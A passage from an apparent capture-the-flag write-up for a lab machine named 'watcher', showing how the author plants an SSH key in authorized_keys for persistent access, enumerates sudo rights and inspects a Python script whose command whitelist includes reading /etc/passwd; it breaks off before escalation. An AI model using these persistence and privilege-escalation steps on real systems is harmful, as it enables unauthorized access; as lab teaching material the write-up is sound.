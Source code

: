 That shell was pretty unstable so I copied my ssh public key to the server and reconnected through ssh. 

```bash
mkdir .ssh
echo "My Public Key" > .ssh/authorized_keys
chmod 700 .ssh
chmod 600 .ssh/authorized_keys
```

Once connected, there is another note.txt file in the home folder. 

```
cat note.txt 
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will
```

Sure enough, we can run a python script as will without a password.

```bash
sudo -l
Matching Defaults entries for mat on watcher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mat may run the following commands on watcher:
    (will) NOPASSWD: /usr/bin/python3 /home/mat/scripts/will_script.py *
```

We are not allowed to modify the script, but lets see what it does. 

```bash
mat@watcher:~$ ls -l scripts/will_script.py
-rw-r--r-- 1 will will 208 Dec  3 01:58 scripts/will_script.py

mat@watcher:~$ cat scripts/will_script.py 
import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])

whitelist = ["ls -lah", "id", "cat /etc/passwd"]

if cmd not in whitelist:
        print("Invalid command!")
        exit()

os.system(cmd)

```
